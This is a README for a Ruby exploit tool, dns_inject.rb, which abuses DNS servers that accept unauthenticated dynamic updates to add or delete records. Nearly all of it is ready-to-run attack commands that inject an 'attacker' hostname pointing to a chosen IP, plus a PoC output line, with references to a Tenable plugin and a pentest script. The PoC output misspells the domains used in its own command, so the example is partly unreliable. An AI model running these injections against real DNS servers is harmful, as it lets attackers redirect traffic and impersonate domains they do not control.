

# DNS Server Dynamic Update Record Injection exploit

It's an exploit for DNS server miscunfiguration that allows ANY to update the DNS server records.

# Usage
**Exploit**
- Add

```
ruby dns_inject.rb --add --inj-domain attacker.gov.gov --inj-ip 192.168.100.10 --domain gov.gov --nameserver 172.16.16.142
```

- Delete 

```
ruby dns_inject.rb --del --inj-domain attacker.gov.gov --inj-ip 192.168.100.10 --domain gov.gov --nameserver 172.16.16.142

```

## PoC

```
ruby dns_inject.rb --add --inj-domain attacker.gov.gov --inj-ip 192.168.100.10 --domain gov.gov --nameserver 172.16.16.142


[+] The Domain 'attacker.goov.gov' => '192.168.100.10' has been injected in goov.gov

```



# References
- http://www.tenable.com/plugins/index.php?view=single&id=35372
- https://github.com/ChrisTruncer/PenTestScripts/blob/master/DNSInject.py

